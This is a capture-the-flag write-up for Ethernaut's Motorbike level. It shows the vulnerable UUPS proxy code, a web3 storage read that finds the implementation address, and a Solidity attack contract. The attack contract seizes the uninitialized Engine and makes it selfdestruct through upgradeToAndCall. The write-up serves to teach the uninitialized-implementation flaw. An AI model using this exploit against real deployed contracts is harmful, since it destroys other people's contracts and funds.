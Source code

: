 # Motorbike

## Challenge Description

Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to `selfdestruct` its engine and make the motorbike unusable ?

Things that might help:

-   [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)
-   [UUPS](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) upgradeable pattern
-   [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "./utils/Address.sol";
import "./utils/Initializable.sol";

contract Motorbike {
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    constructor(address _logic) public {
        require(
            Address.isContract(_logic),
            "ERC1967: new implementation is not a contract"
        );
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success, ) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    function _delegate(address implementation) internal virtual {
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(
                gas(),
                implementation,
                0,
                calldatasize(),
                0,
                0
            )
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 {
                revert(0, returndatasize())
            }
            default {
                return(0, returndatasize())
            }
        }
    }

    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    function _getAddressSlot(
        bytes32 slot
    ) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success, ) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    function _setImplementation(address newImplementation) private {
        require(
            Address.isContract(newImplementation),
            "ERC1967: new implementation is not a contract"
        );

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## Challenge Solution Walkthrough

In this challenge, the objective is to call the `selfdestruct()` function on the `Engine` contract. However, the `Engine` contract itself does not contain a `selfdestruct()` function. To achieve this, we need to call `selfdestruct()` from another contract. The approach involves using the `upgradeToAndCall()` function to upgrade to a contract that does have a `selfdestruct()` function and then invoke that function.

To call the `upgradeToAndCall()` function, we need to satisfy the `_authorizeUpgrade()` function's requirement, where `msg.sender` must be equal to the `upgrader` address. Thus, we have to change the `upgrader` to our own account/contract. The `initialize()` function can change the `upgrader` to `msg.sender`, but it has the `initializer` modifier, which allows it to be called only once. This function is invoked from the `Motorbike` contract, but it uses `delegatecall()`. When `delegatecall()` is used to call the `initialize()` function, it executes in the context of the `Motorbike` contract, not the `Engine` contract.

To become the `upgrader`, we need to directly call the `initialize()` function of the `Engine` contract. To do this, we must find the address of the `Engine` contract. It is stored at the address `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc`, referred to as `_IMPLEMENTATION_SLOT`. We can use the following command to obtain the address:

```javascript
> await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
< '0x0000000000000000000000009c999d8ff8582881a7fa11f3072c093e971b9c4d'
```

Now, we can see that the address of the `Engine` contract is `0x9c999d8ff8582881a7fa11f3072c093e971b9c4d`. Now, we deploy the contract below, and pass the found address to the `constructor()` of the contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

import "./Motorbike.sol";

contract MotorbikeSolution {
    Motorbike public motorbike;
    Engine public engine;

    constructor(address engineAddress) public {
        engine = Engine(engineAddress);
    }

    function solveChallenge() public {
        engine.initialize();
        engine.upgradeToAndCall(
            address(this),
            abi.encodeWithSignature("suicideMe()")
        );
    }

    function suicideMe() public {
        selfdestruct(msg.sender);
    }
}
```

When we call the `solveChallenge()` function, it calls the `initialize()` function of the `Engine` contract, and this contract becomes the `upgrader` of the `Engine` contract. Then, it calls `upgradeToAndCall()` function, and as the first parameter it sends its address to become the upgraded contract, and as the second argument it passes the function selector of the `suicideMe()` function to be called. `suicideMe()` is another function defined in the contract which calls `selfdestruct()`. Since `Engine` function uses `delegatecall()` to interact with this contract, by calling `suicideMe()`, the `Engine` function destroys itself.

## Challenge Description After Solving

The advantage of following an UUPS pattern is to have very minimal proxy to be deployed. The proxy acts as storage layer so any state modification in the implementation contract normally doesn't produce side effects to systems using it, since only the logic is used through delegatecalls.

This doesn't mean that you shouldn't watch out for vulnerabilities that can be exploited if we leave an implementation contract uninitialized.

This was a slightly simplified version of what has really been discovered after months of the release of UUPS pattern.

Takeways: never leave implementation contracts uninitialized ;)

If you're interested in what happened, read more [here](https://forum.openzeppelin.com/t/uupsupgradeable-vulnerability-post-mortem/15680).
